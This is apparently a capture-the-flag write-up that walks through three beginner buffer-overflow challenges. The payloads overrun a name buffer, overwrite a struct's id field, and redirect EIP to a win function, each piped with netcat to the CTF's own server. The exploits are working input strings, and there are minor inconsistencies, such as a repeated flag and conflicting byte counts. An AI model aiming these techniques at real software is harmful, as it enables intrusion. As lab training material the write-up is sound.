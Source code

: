 # [Each in The Shell](https://intheshell.page/) CTF - Binary Exploitation Challenge

## Introduction

This challenge is part of the ["Each in The Shell" (EiTS)](https://intheshell.page/) binary exploitation (binexp) CTF, divided into three parts. Each stage must be completed to progress to the next one.

---

## **Challenge 1:**

I downloaded the `desafio` and the `desafio.c` file, and I opened the binary with IDA64 for analysis. Let's take a look at the `main` function:

```c
undefined8 main(void)
{
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  printf("Qual o seu nome?\n> ");
  __isoc99_scanf(&DAT_0049501c,usuario);
  if (usuario[32] == '\0') {
    printf("Ola %s, voce nao tem permissao para ver a flag\n",usuario);
  }
  else {
    printf("Ola %s, aqui esta a sua flag: %s\n",usuario,"eits{REMOVIDA}");
  }
  return 0;
}
```

In this function, we see an `if` statement that checks if the character at position 32 in the `usuario` string is null ('\0'). If it's null, it displays the message: you do not have permission to see the flag. Otherwise, it displays "Aqui está sua flag: eits{REMOVIDA}." (Here is your flag: eits{REMOVED})

To see the flag, you need to ensure that the character at position 32 of the `usuario` string is not '\0'. This means the `usuario` string must be at least 32 characters long to avoid the null character being at position 32.

So, you can provide a string with 32 characters or more, where position 32 contains, for example, 'a' to see the flag. Something like:

```bash
❯ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc ctf-ps.intheshell.page 5000
Qual o seu nome?
> Ola aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa, aqui esta a sua flag: eits{gr1t4nd0_qu3_53_r3s0lv3}
```

In this case, the first 32 characters are "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa," and the null character ('\0') is not at position 32, allowing you to see the flag: **eits{gr1t4nd0_qu3_53_r3s0lv3}**

Now, let's move on to the next challenge:

## **Challenge 2:**
I downloaded two files again (desafio and `desafio.c` again). Let's look at the `desafio.c` file with any text editor:

```c
if (usuario.id <= 0 || usuario.id > (int) sizeof(mensagens)) {
	printf("Usuario inexistente\n");
} else {
	// usuario.id == 1 ou 2
	// queremos o id == 1
	printf("Mensagem: %s\n", mensagens[usuario.id - 1]);
}
```

We want to ensure we enter the `else` block, so we need to negate the condition in the `if` statement. We want `id` to be greater than 0 and less than the size of `mensagens`, which is 2. This means we want `id` to be 1 or 2.

If `id` is 2, the message displayed is `mensagens[1] = "Você não tem permissão" (You do not have permission)` So, we want `id` to be 1.

Knowing that the struct stores the variables side by side in physical memory, and that we are entering the user's name, the memory layout is as follows:

```
|----|--|
|name|id|
|----|--|
```

Figuratively, the name occupies a "house" of 4 hyphens. If we provide a name longer than what can fit in this "house," we will overflow into the space of `id`, and we can change the current value (2) to 1.

So, we need to determine how many "houses" or characters we have to put in the name to "overflow" and change the value of `id`. The size of the name in the struct is 32 bytes. To confirm, we can run the following line:

```c
printf("%lu\n", sizeof(char)); // 1 byte
```

We can check the size of an integer in the same way:

```c
printf("%lu\n", sizeof(int)); // 4 bytes
```

Or we can see the size of the struct directly:

```c
printf("%lu\n", sizeof(usuario)); // 36 bytes
```

What matters is that we know the number of spaces the name occupies is 32 bytes, and `id` occupies 4 bytes. This totals 36 bytes.

So, it's straightforward to change the `id` value; we simply pass a string with 36 bytes, with the last 4 bytes representing the new `id`. 

In this case, I'll pass 32 'A' characters to fill the name and then append the value 1 in hexadecimal to occupy the last 4 bytes:

```bash
❯ python -c 'print("A"*32 + "\x01\x00\x00\x00")' | ./desafio
Qual o seu nome?
> Ola, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Mensagem: eits{RETIRADA}
```

> \* We send values in hexadecimal backward because most computer architectures use "Little Endian" memory storage, where the least significant byte comes first in memory. 

Now, I'll use this approach with netcat (nc):

```bash
python -c 'print("A"*32 + "\x01\x00\x00\x00")' | nc ctf-ps.intheshell.page 5001
```

As a result, it prints the hidden flag:

```
Qual o seu nome?
> Ola, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Mensagem: eits{gr1t4nd0_qu3_53_r3s0lv3}
```

## **Challenge 3:**

For this challenge, I downloaded the code source (`desafio.c`) and the binary file. First, let's examine the `desafio.c` file:

- We aim to run the `vitoria` function, which prints the flag. However, this function is never called in the code. Let's run the program:

```bash
chmod +x desafio # Permission to execute the binary
./desafio
```

It prints the address of the `vitoria` function in memory:

```
O alvo: 0x80497a5
Mensagem
> ^C
```

At this point, connecting all the pieces together, we know this is another case of buffer overflow. This time, we also have a `scanf` function to exploit. Looking at the code again, the input read by `scanf` is passed to another function, concatenated with another string, and stored in a 32-byte buffer.

In this challenge, the goal is to overwrite the Instruction Pointer (EIP), which stores the address of the next instruction to be executed, with the address of the "vitoria" function (which we already have = **0x80497a5**). 

Let's run the program and intentionally cause an error by providing a very long string:

```bash
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK
```

Next, we can check the value of the EIP register using GDB:

```bash
(gdb) ./desafio
(gdb) run
(gdb) info registers
```

You will notice that the EIP register is overwritten with a pattern, like "HHHH," which is equivalent to 0x48484848 in hexadecimal (ASCII 'H'). This indicates that we need 28 bytes to "overflow" the buffer and overwrite the EIP.

Now, we can craft a string with 32 bytes to overflow the buffer and overwrite the EIP with the address of the `vitoria` function. Since we are working with Little Endian, we need to write the address backward. You can use Python for this, but in my Python version (3.11.5), I didn't have success. Alternatively, you can use `echo` to achieve the desired result:

```bash
echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08" | ./desafio
```

Now, you can apply the same approach with netcat:

```bash
echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08"  | nc ctf-ps.intheshell.page 5002
```

As a result, it prints the flag:  **eits{v1t0r14_1lc4nc4d4!}**
